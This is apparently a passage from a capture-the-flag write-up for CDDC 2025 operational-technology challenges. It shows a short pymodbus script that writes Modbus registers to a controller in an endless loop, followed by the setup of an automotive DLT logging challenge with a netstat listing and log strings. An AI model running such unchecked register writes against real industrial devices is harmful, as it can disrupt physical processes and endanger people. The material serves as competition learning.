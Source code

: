 If it still refused to work, I was ready to spawn 10 terminals to run the code 10 times. :\)

```py
from pymodbus.client import ModbusTcpClient
import time

client = ModbusTcpClient('192.168.0.4')

if not client.connect():
    print("Failed to connect to Modbus server!")

print("Connected successfully!")

while True:
    reg_result = client.write_registers(1, [1, 1, 1])

client.close()
print("Connection closed.")
```

## OT - IVI1

## OT - IVI2

> Do you know what DLT is?
> If you want to go to the future, it is important to know about DLT.
> 
> There is a hint on how to use DLT in netstat.txt.
> 
> The provided binary is one of many binaries that use this DLT.
> 
> It is said that the clue to go to the future is in this binary(updatemgr).
> The binary provided on stage is running.
> 
> Analyze the binary to find the file that can get the flag to go to the future.

We are provided with 3 files, `updatemgr` `netstat.txt` and `cddc2025.dlt`.

**netstat.txt**

```
netstat -natlp | grep dlt | grep LISTEN
tcp        0      0 :::3490                 :::*                    LISTEN      249/dlt-daemon
```

This shows the `dlt-daemon` listening on port 3490.

> DLT refers to Diagnostic Log and Trace which is basically a common logging protocol used in automotives. [dlt-daemon](https://github.com/COVESA/dlt-daemon) would be the listening service in an automotive component that sends logging over the network.

`cddc2025.dlt` contains the logging messages that were captured at some point of time. If we run `strings` on the file, we can see lots of logging messages such as the following:

```
UPDM_wbIsFilePathExists() [Warn]file path does not exist. [/AccessDev.dat].
UPDM_wemReadFileData() [Err]failed to open file [/opt/ota/usrpwd.txt].
[16170.653955] TouchReport X(152)
[16170.653983] TouchReport Y(470)
[16170.653997] TouchReport Z(124)
```
